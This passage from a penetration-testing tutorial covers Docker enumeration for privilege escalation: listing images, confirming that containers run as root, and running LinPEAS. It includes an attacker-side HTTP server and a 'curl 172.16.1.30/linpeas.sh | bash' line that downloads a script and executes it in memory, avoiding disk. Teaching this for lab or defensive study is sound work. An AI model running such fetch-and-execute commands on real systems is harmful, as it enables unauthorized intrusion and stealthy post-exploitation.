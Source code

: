 Continuing ahead, we should further enumerate how docker is configured to determine which user is used when a container is created (user we land in the container as)
Enumerating Docker Images and the Default User

Docker containers run with root as the default user, unless specified otherwise in a Dockerfile or on the command-line.

The best way to determine if containers on this host run with root as the default user, is to simply spin one up.

To list all of the Docker images on the target host, we can use the following command:

docker images

There is an Alpine image installed on here, so we can take note of the Repository name ‘alpine’, as that will be used when spinning up the container.

    You could also use the Image ID in place of the repository name when spinning up a container.

Next, we can spin up a container that will run a single command (whoami) and then destroy itself.

docker run --rm -it alpine sh -c "whoami"

Amazing! The host is using the default configuration and the container is running with root as the default user!

Now that we have enumerated this service and confirmed it is vulnerable, we can look for an exploit to elevate privileges.

However, before we do that, let’s see how well LinPeas can enumerate this same information for us.
Enumerating Docker Using Tools – LinPEAS

LinPEAS is the ultimate post-exploitation enumeration tool because it provides a HUGE amount of information. After running it on the victim, we will see all of the same things we found with our manual enumeration, plus much more. However, it was important to show the manual steps before using tools so that we understand the output of our tools and what to look for.

    If you do not have a copy of LinPEAS, you can grab one here.

Generally when we run LinPEAS, we will run it without parameters to run ‘all checks’ and then comb over all of the output line by line, from top to bottom.
Executing LinPEAS Directly Into memory

After grabbing a copy of LinPEAS, we would normally transfer a copy onto the victim and then execute it. However, in this example we will download and execute it directly into memory.

To start, we need to setup an HTTP server on our attacker machine from the directory where linpeas.sh is located.

python3 -m http.server 80

Then, back on the victim machine, we can use the following command to download and execute LinPEAS directly into memory:

curl 172.16.1.30/linpeas.sh | bash

By piping the command directly into bash, cURL will feed the script into bash and execute it in memory without writing it to disk!

Seeing 0’s across the board here confirms that the file was not downloaded to disk. This means the script was executed directly into memory!
